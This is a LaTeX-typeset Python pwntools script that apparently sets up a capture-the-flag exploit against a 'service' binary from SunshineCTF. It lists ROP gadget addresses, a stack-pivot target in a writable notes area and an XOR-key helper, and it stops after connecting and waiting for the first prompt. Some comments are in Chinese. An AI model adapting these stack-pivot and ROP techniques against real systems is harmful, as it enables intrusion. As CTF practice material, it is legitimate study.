 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\AlertTok}[1]{\textcolor[rgb]{0.94,0.16,0.16}{#1}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\NormalTok{context.arch      }\OperatorTok{=} \StringTok{\textquotesingle{}amd64\textquotesingle{}}
\NormalTok{context.log\_level }\OperatorTok{=} \StringTok{\textquotesingle{}info\textquotesingle{}}

\NormalTok{POP\_RSP       }\OperatorTok{=} \BaseNTok{0x401523}   \CommentTok{\# pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret}
\NormalTok{POP\_RDI       }\OperatorTok{=} \BaseNTok{0x401529}   \CommentTok{\# pop rdi ; ret}
\NormalTok{POP\_RSI       }\OperatorTok{=} \BaseNTok{0x401dd5}   \CommentTok{\# pop rsi ; ret}
\NormalTok{POP\_RBX       }\OperatorTok{=} \BaseNTok{0x401f33}   \CommentTok{\# pop rbx ; ret}
\NormalTok{WRITE\_RDX\_RAX }\OperatorTok{=} \BaseNTok{0x401c32}   \CommentTok{\# mov rdx,rax ; jmp write@plt  {-}\textgreater{} write(rdi, rsi, rax)}
\NormalTok{SUBMIT\_READ   }\OperatorTok{=} \BaseNTok{0x401f07}   \CommentTok{\# xor edi,edi ; movzx edx,bl ; mov rsi,rsp ; call read}
\NormalTok{RELAY\_RX      }\OperatorTok{=} \BaseNTok{0x401fda}   \CommentTok{\# mov edx,0x100 ; mov rsi,rbx ; mov edi,3 ; call read}
\NormalTok{KEY           }\OperatorTok{=} \BaseNTok{0x405060}   \CommentTok{\# XOR key（4 bytes）}
\NormalTok{NOTES         }\OperatorTok{=} \BaseNTok{0x40a180}   \CommentTok{\# }\AlertTok{NOTE}\CommentTok{ 筆記區（已知位址的可寫區）}
\NormalTok{PIVOT\_TOP     }\OperatorTok{=}\NormalTok{ NOTES }\OperatorTok{{-}} \BaseNTok{0x18}   \CommentTok{\# pop rsp 的落點}
\NormalTok{A1            }\OperatorTok{=}\NormalTok{ NOTES }\OperatorTok{+} \DecValTok{8}      \CommentTok{\# 第一次 pivot read 的目標 = 0x40a188}


\KeywordTok{def}\NormalTok{ xor\_key(data, key):}
\NormalTok{    ks }\OperatorTok{=}\NormalTok{ key[::}\OperatorTok{{-}}\DecValTok{1}\NormalTok{]}
    \ControlFlowTok{return} \BuiltInTok{bytes}\NormalTok{(c }\OperatorTok{\^{}}\NormalTok{ ks[i }\OperatorTok{\%} \DecValTok{4}\NormalTok{] }\ControlFlowTok{for}\NormalTok{ i, c }\KeywordTok{in} \BuiltInTok{enumerate}\NormalTok{(data))}


\NormalTok{io }\OperatorTok{=}\NormalTok{ process(}\StringTok{\textquotesingle{}./service\textquotesingle{}}\NormalTok{)          }\CommentTok{\# 遠端就改成 remote(\textquotesingle{}chal.sunshinectf.games\textquotesingle{}, 26007)}
\NormalTok{io.recvuntil(}\StringTok{b\textquotesingle{}sh\textgreater{} \textquotesingle{}}\NormalTok{)                                   }\CommentTok{\# (1) 等第一個提示字元}


\end{Highlighting}
\end{Shaded}
\end{document}
